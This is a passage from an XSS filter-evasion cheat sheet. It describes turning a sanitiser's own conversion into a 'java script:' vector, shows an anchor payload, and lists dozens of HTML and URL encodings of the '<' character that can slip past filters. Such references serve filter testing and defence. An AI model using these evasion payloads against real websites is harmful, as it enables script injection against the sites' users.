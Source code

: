 Assuming `http://www.google.com/` is programmatically replaced with nothing). I actually used a similar attack vector against a several separate real world XSS filters by using the conversion filter itself (here is an example) to help create the attack vector (IE: `java&\#x09;script:` was converted into `java	script:`, which renders in IE, Netscape 8.1+ in secure site mode and Opera):

    <A HREF="http://www.google.com/ogle.com/">XSS</A>

## Character escape sequences

All the possible combinations of the character "\<" in HTML and JavaScript. Most of these won't render out of the box, but many of them can get rendered in certain circumstances as seen above.

`<`  
`%3C`  
`&lt`  
`&lt;`  
`&LT`  
`&LT;`  
`&#60`  
`&#060`  
`&#0060`  
`&#00060`  
`&#000060`  
`&#0000060`  
`&#60;`  
`&#060;`  
`&#0060;`  
`&#00060;`  
`&#000060;`  
`&#0000060;`  
`&#x3c`  
`&#x03c`  
`&#x003c`  
`&#x0003c`  
`&#x00003c`  
`&#x000003c`  
`&#x3c;`  
`&#x03c;`  
`&#x003c;`  
`&#x0003c;`  
`&#x00003c;`  
`&#x000003c;`  
`&#X3c`  
`&#X03c`  
`&#X003c`  
`&#X0003c`  
`&#X00003c`  
`&#X000003c`  
`&#X3c;`  
`&#X03c;`  
`&#X003c;`  
`&#X0003c;`  
`&#X00003c;`  
`&#X000003c;`  
`&#x3C`  
`&#x03C`  
`&#x003C`  
`&#x0003C`  
`&#x00003C`  
`&#x000003C`  
`&#x3C;`  
`&#x03C;`  
`&#x003C;`  
`&#x0003C;`  